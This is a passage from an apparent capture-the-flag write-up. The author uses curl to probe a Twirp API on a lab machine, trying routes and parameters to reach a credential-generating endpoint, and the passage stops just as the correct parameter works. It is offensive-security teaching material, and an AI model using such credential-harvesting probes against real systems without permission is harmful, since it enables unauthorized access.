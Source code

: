## Shell as www-data

### Access Protobs Site

#### Get Creds from Twirp API

Looking at [the docs](https://twitchtv.github.io/twirp/docs/curl.html#json),
like I should issue a request using `curl` that looks like:

    
    
    curl --request "POST" \
         --location "http://localhost:8080/twirp/[package].[service]/[rpc]" \
         --header "Content-Type:application/json" \
         --data '{"[key for input message]": [value]}'
    

It’s not clear to me if I need the `/twirp/` or not. I have the following:

  * package: `twirp.player2.auth`
  * service: `Auth`
  * rpc: `GenCreds`
  * key input: `count` or `Number`
  * value: `1` (as a guess?)

My initial attempt is:

    
    
    root@kali# curl -s --request POST --location "http://10.10.10.170:8545/twirp.player2.auth.Auth/GenCreds" --header "Content-Type:application/json" --data '{"count": 1}' | jq .
    {
      "code": "bad_route",
      "msg": "no handler for path \"/twirp.player2.auth.Auth/GenCreds\"",
      "meta": {
        "twirp_invalid_route": "POST /twirp.player2.auth.Auth/GenCreds"
      }
    }
    

It is still an invalid route. Then I tried adding the `/twirp`/:

    
    
    root@kali# curl -s --request POST --location "http://10.10.10.170:8545/twirp/twirp.player2.auth.Auth/GenCreds" --header "Content-Type:application/json" --data '{"count": 1}' | jq .
    {
      "code": "internal",
      "msg": "internal error",
      "meta": {
        "cause": "Call to undefined function Google\\Protobuf\\Internal\\bccomp()"
      }
    }
    

That’s a different error. Seems I found the API endpoint. I tried `number` in
place of `count` and it worked:
